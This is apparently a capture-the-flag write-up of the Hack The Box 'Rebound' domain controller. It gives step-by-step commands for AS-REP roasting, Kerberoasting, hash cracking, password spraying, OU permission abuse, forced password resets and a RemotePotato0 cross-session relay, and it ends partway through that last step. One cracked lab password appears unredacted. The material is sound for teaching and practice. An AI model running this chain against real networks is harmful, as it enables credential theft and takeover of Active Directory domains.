This box is rated insane difficulty on HTB. It involves us performing unauthenticated Kerberoasting via AS-REP Roasting and cracking the hash in order to get valid domain credentials. Then we spray this password across the domain in order to get access to another user that can execute a Descendent Object Takeover on an OU. With our new permissions, we forcefully change a service accounts password to get a foothold on the machine and then perform a Cross-Session Relay Attack to capture an NTLMv2 hash of an already logged on user. This user can read a gMSA password who we'll use to setup a Constrained Delegation attack by using RBCD to configure another account, ultimately giving us DCSync rights over the domain.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields the typical AD ports.

```
└─$ sudo nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sCV 10.129.232.31 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-21 19:43 -0400
Nmap scan report for 10.129.232.31
Host is up (0.051s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-22 01:52:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-22T01:53:46+00:00; +2h08m58s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
|_ssl-date: 2026-05-22T01:53:47+00:00; +2h08m58s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-22T01:53:46+00:00; +2h08m58s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: rebound.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
|_ssl-date: 2026-05-22T01:53:47+00:00; +2h08m58s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-05-22T01:53:41
|_  start_date: N/A
|_clock-skew: mean: 2h08m57s, deviation: 0s, median: 2h08m57s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.88 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. LDAP is leaking the Fully Qualified Domain Name of `DC01.REBOUND.HTB` which I add to my `/etc/hosts` file. Since there are no web servers running, I'll focus on SMB, LDAP, and Kerberos initially to gather information on the domain.

## Service Enumeration

### RPC and LDAP
Testing RPC for Null authentication and LDAP for anonymous binds both fail, so I'll hone in on SMB.

```
└─$ rpcclient -U ''%'' dc01.rebound.htb

└─$ ldapsearch -x -H ldap://dc01.rebound.htb -b "dc=REBOUND,dc=HTB" -s base "(objectClass=user)"
```



### SMB
Looks like SMB allows Guest authentication, but the only non-standard share has nothing for us.

```
└─$ nxc smb dc01.rebound.htb -u 'Guest' -p '' --shares 

└─$ smbclient -U 'Guest' //dc01.rebound.htb/Shared
```



Since we can authenticate to the domain, I'll brute-force RIDs to enumerate account names and then test them for any that are AS-REP Roastable.

## Exploitation

### AS-REP Roasting
If you're unfamiliar with this technique - Attackers can perform AS-REP roasting when an Active Directory account has "Do not require Kerberos pre-authentication" enabled. By sending an authentication request to the Kerberos Key Distribution Center (KDC) using only a username, the server returns an AS-REP response encrypted with the user's password-derived key. We can then capture this response and offline crack the hash to recover the account's plaintext password.

On Windows systems, a Security Identifier (SID) uniquely identifies a user, group, or computer account, and the Relative Identifier (RID) is the last portion of that SID that distinguishes one principal from another within the same domain or system. The domain portion of the SID stays the same for all accounts in that domain, while the RID changes per object. For example, the SID `S-1-5-21-3623811015-3361044348-30300820-500` has a RID of `500`, which corresponds to the built-in local Administrator account.

First, I save the RID brute-force output to a file and extract the names with a few awk commands. Note that a few of the accounts have an RID over 7000, which is uncommon as domain users typically start around 1000 so we'll need to increase the max to be thorough.

```
└─$ nxc smb dc01.rebound.htb -u 'Guest' -p '' --rid-brute 10000> RIDout.txt

└─$ awk -F'\' '{print $2}' RIDout.txt | awk '{print $1}' > RIDusers.txt

└─$ cat RIDusers.txt 
DC01$
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
ServiceMgmt
winrm_svc
batch_runner
tbrady
delegator$
```

After a bit of cleanup, we're left with plenty of domain names. Now I'll use Impacket's [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) script to check which do not require Kerberos pre-auth.

```
└─$ impacket-GetNPUsers -usersfile RIDusers.txt -no-pass -dc-ip 10.129.232.31 rebound.htb/
```



Looks like the _Jjones_ user checks this box, giving us a **KRB5ASREP** hash to send over to Hashcat or JohnTheRipper in order to get the plaintext version.

```
└─$ john jjones.hash --wordlist=/opt/seclists/rockyou.txt

└─$ hashcat -m 18200 -a 0 -r /usr/share/hashcat/rules/best66.rule jjones.hash /opt/seclists/rockyou.txt
```



### Unauthenticated Kerberoasting via AS-REP Roasting
I spent some time attempting to crack this hash with a few different tools as well as mutated and custom wordlists but got nothing from it. Whilst doing research on ways to attack accounts with the "Do Not Require Kerberos Pre-Authentication" option enabled, I came across this great [Istrosec article](https://istrosec.com/blog/the-attackers-active-directory-playbook--1-how-to/?utm_source=chatgpt.com). It explains that an attacker can chain an AS-REP Roast attack to get an encrypted ticket, and instead of cracking it, use it directly in a subsequent Kerberoasting attack. Once carried out, we are granted **KRB5TGS** hashes which can be attempted to crack once more.

This can be carried out with Impacket's [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) script, provided we have a list of account names to pass in.

```
└─$ impacket-GetUserSPNs rebound.htb/ -usersfile RIDusers.txt -no-preauth 'jjones' -dc-host dc01.rebound.htb
```



Cracking these results in just one password for the _ldap_monitor_ account.

```
└─$ hashcat -m 13100 -a 0 TGShashes /opt/seclists/rockyou.txt
```



Validating these show that we aren't allowed to grab a shell quite yet, but I suspect that this account may have hidden privileges due to its name.

```
└─$ nxc ldap dc01.rebound.htb -u 'ldap_monitor' -p '[REDACTED]'

└─$ nxc winrm dc01.rebound.htb -u 'ldap_monitor' -p '[REDACTED]'
```



### Mapping Domain with BloodHound
With valid domain credentials, I'll collect data with [BloodHound-Python](https://github.com/dirkjanm/bloodhound.py) in order to start mapping any permissions we may have.

```
└─$ bloodhound-python -c all -d rebound.htb -ns 10.129.232.31 -u 'ldap_monitor' -p '1GR8t@$$4u'

└─$ sudo bloodhound
```



### Password Spraying
This account doesn't seem to have any outbound object privileges are is apart of any groups with special permissions, so I'll try to spray their password across the domain in hopes to gain access to another account.

```
└─$ nxc smb dc01.rebound.htb -u RIDusers.txt -p '[REDACTED]' --continue-on-success
```



### Descendent Object Takeover
This succeeds for one other user account. Following this user's trend of outbound object privileges with the pathfinding module shows that we can add ourselves to a service management group which has _GenericAll_ over the Service User OU.



BloodHound's Linux Abuse tab shows that these permissions can be abused to take over descendant objects within the OU by leveraging inherited ACLs, potentially granting broader access to child users, groups, or computers.



A descendant object takeover occurs when we gain control over a parent container or Organizational Unit (OU) and abuse inherited permissions to compromise child objects beneath it, such as users, computers, or groups. For example, if we have _GenericAll_ or _WriteDACL_ rights over an OU, we can often modify permissions, link malicious Group Policy Objects, or reset passwords for descendant objects that inherit those rights. This makes OU-level misconfigurations especially dangerous because a single weak delegation can cascade into broad domain control.

First we'll need to add ourselves to the Service Management domain group, which can be done with either BloodyAD or Samba's net toolkit. If you don't have access to these command, we can install them with `sudo apt install samba-common-bin -y` and `sudo apt install bloodyad` on Debian machines.

_Note: I'd usually use Impacket's toolkit to perform a lot of these attacks, however it seems like BloodyAD handles the LDAPS connection (which is mostly required) better than other tools._

```
└─$ bloodyAD -d 'rebound.htb' -u 'oorend' -p '[REDACTED]' --dc-ip 10.129.232.31 add groupMember 'SERVICEMGMT' 'oorend'

└─$ net rpc group members 'SERVICEMGMT' -U 'rebound.htb'/'oorend'%'[REDACTED]' -S 'dc01.rebound.htb'
```



Now I'll use BloodyAD again to grant ourselves _GenericAll_ over everything within the OU.

```
└─$ bloodyAD --host 10.129.232.31 -d REBOUND.HTB -u oorend -p '[REDACTED]' add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
```



There are two users in the Service Users OU, _winrm_svc_ and _batch_runner_. 



### Initial Foothold
The former allow us to grab a shell on the box, so I'll change their password using our newfound permissions.

```
└─$ bloodyAD --host 10.129.232.31 -d REBOUND.HTB -u oorend -p '[REDACTED]' set password 'winrm_svc' 'Password123!'
```



Confirming our new credentials lets us grab a shell via WinRM and start enumeration on the filesystem.

```
└─$ evil-winrm -i dc01.rebound.htb -u 'winrm_svc' -p 'Password123!'
```



At this point we can grab the user flag from their Desktop folder and begin looking at routes to escalate privileges to Administrator.

## Privilege Escalation
Listing our token privileges and any other users on the box just shows that _Tbrady_ might be a high-value target since they're present on the DC.



### Discovering User Session
Deep enumeration on the filesystem and triple checking everything in BloodHound, even with new data, shows nothing new of use. Recalling the course material for OSCP and other personal research for privilege escalation techniques in AD environments, I check to see  what other machines are on the domain via PowerSploit's [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) script.

```
PS> . .\powerview.ps1 

PS> Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```



Querying which users are logged on for each system shows that _Tbrady_ is logged in locally on the DC. I use the PSLoggedOn utility from Windows' sysinternals suite which can be downloaded from [their link](https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon) and unzipped.

```
PS> .\PsLoggedon64.exe \\dc01

PS> .\PsLoggedon64.exe \\gmsa
```



We can dig a bit further and find out his session ID using `qwinsta`, however we must use [RunasCs](https://github.com/antonioCoco/RunasCs) in order to execute this command otherwise we are given an error saying "Access is denied". I'm not entirely sure what the reason behind it is, but my theory is that certain commands are not allowed to be ran remotely (e.g. in a WinRM session) and by spawning another process (which is what RunasCs does) circumvents this restriction.

```
PS> upload RunasCs.exe

PS> .\RunasCs.exe x x qwinsta -l 9
```



With this knowledge in hand, we're primed to execute a Cross-Session Relay Attack against the _Tbrady_ user. The two major steps in the attack are coercion of another user and a relay mechanism.

### Cross-Session Relay Attack
A cross-session relay attack occurs when we coerce or trick another user's session on the same Windows machine into authenticating to a resource we control, allowing us to capture or relay their NTLMv2 authentication. Even as a lower-privileged user, we can sometimes abuse named pipes, COM objects, WebDAV, printer services, or local NTLM reflection primitives to force a higher-privileged logged-in user to authenticate across sessions. 

Once we intercept that NTLMv2 challenge-response, we may be able to relay it to another service for authenticated access or crack it offline if the password is weak. These attacks are especially dangerous on multi-user systems like RDS servers or jump boxes where privileged administrators are logged in alongside us.

I'll proceed by using [RemotePotato0](https://github.com/antonioCoco/RemotePotato0), which abuses Windows DCOM/RPC interfaces to coerce a logged-in user's NTLM authentication from a different session and relay it to a network service the attacker controls. In practice, it lets us sit as a low-privileged user on a machine and trigger a higher-privileged user (often an admin logged in via RDP) to authenticate back to us without directly interacting with them. That captured authentication can then be relayed to services like LDAP or SMB to escalate privileges in the domain. I recommend reading this [SentinalOne post](https://www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/?utm_type=pantheon_stripped&utm_target=pantheon_stripped&utm_device=pantheon_stripped&utm_medium=pantheon_stripped&utm_source=pantheon_stripped&utm_campaign=pantheon_stripped&utm_content=pantheon_stripped&utm_term=pantheon_stripped&gclid=cjwkcajwilggbhaqeiwagq3q_kiroov3hvhydvsivuoligro23jey4ezy-5fvxelaqq8zeltg59pbbocsyaqavd_bwe) as it goes very in-depth.

Because the account we're targeting is not an admin, I'll just focus on grabbing their hash. We can do so using module 2 (RPC hash capture + potato trigger) while specifying the following options:
- `-m 2` - Module 2 to match our intended attack
- `-s 1` - The session ID of the account we're targeting
- `-x 10.10.14.6` - The IP address of the rogue Oxid resolver
- `-p 9999` The port matching the DC's default Oxid resolver

